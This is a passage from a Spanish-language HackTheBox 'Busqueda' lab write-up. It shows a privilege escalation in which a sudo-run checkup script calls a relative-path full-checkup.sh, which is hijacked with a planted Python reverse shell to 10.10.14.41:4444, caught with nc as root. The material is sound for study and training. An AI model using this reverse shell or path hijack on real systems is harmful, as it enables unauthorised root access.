 ```bash
    }
  ]
}

[=] Apache webhosts
[+] searcher.htb is up
[+] gitea.searcher.htb is up

[=] PM2 processes
┌─────┬────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name   │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 0   │ app    │ default     │ N/A     │ fork    │ 1641     │ 61m    │ 0    │ online    │ 0%       │ 30.5mb   │ svc      │ disabled │
└─────┴────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘

[+] Done!
```

Esto sugiere que la acción `full-checkup` hace uso del script `full-checkup.sh` y, anteriormente, se estaba intentando ejecutar desde el directorio actual, lo que falló porque ese archivo no existía en ese directorio. Al ejecutarlo desde el directorio `/opt/scripts/`, parece funcionar correctamente.

En ese caso, procedemos a acceder al directorio `/tmp` y creamos un script con el nombre `full-checkup.sh` que genere una reverse shell en Python.

```bash
#!/usr/bin/python3

import socket,os,pty;s=socket.socket();s.connect(("10.10.14.41",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Nos ponemos a la escucha en el puerto especificado y luego ejecutamos nuevamente el script `system-checkup.py` desde el directorio `/tmp`.

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
[sudo] password for svc:
```

Hemos obtenido una shell como usuario `root`.

```bash
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.208] 40966
root@busqueda:/tmp# whoami
whoami
root
```

